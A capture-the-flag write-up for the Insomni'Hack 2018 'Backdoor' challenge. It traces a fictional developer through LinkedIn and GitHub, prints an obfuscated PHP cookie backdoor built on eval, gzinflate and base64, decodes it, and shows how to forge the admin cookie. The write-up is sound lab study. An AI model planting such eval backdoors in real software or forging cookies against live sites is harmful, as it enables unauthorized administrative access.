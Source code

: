 ```yaml
---
title: Insomni'Hack 2018 - Backdoor
layout: writeup
authors: Guillaume_Lopes
---
```

Solves: 25 / Points: 124


## Challenge description
Hello shady hacker, I represent a web development company trying to grow in Geneva, but unfortunately we're running into a lot of competition. One company in particular is stealing all our clients and we'd like you to hack them to obliterate their reputation and show that they are terrible developers. Here is one of their websites. Can you break in and prove that they suck?



## Challenge resolution


When connecting to the webapp http://bd.insomniack.ch, we can found in the HTML code the name of the developer:

* James Karsmith

After some Googling, we finally found a Linkedin account from a web developer working in Geneve with the same name:
![James Linkedin Profile](/assets/james.png)

When looking on a GitHub, we can find only one user with the company name:

* https://github.com/WackyWebWizards

In the repository, we can see the developer created a backdoor in order to login as shown in the code below:
```php
<?php
if(isset($_COOKIE['wwwadmin'])) {
        $code="y0zTSK/KzEvLSSxJ1UhKLE41M4lPSU3OT0nVUIl39vf39nSNVi8vL09Myc3MU4/V1FSwtbVVUCo2Ti4yLolPSkzOTjEwKIovyY9PzMmJL0hMTy1WVNJUqObiVIkPdg0O9vT3i1bPTFGPVbBVMLRGEYUaCZGoBQA=";
        eval(gzinflate(base64_decode($code)));
}
?>
```

In order to retrieve the value of $code variable, we just modified `eval` function with `echo` and we obtained the following code:
```php
if(gzinflate(base64_decode($_COOKIE['wwwadmin'])) === "s3cr3t_backd00r_to_all_pages!") {
	$_SESSION['id'] = 1;
	$_SESSION['admin'] = 1;
}
```

So to sump up, in order to obtain admin access, we need to have a cookie name `wwwadmin` with the value "s3cr3t_backd00r_to_all_pages!" compressed with Gzip and encoded in base64.
It's just one line of PHP:
```php
echo base64_encode(gzdeflate("s3cr3t_backd00r_to_all_pages!"));
```

At the end we obtain the flag!!!

![Flag](/assets/backdoor-flag.png)
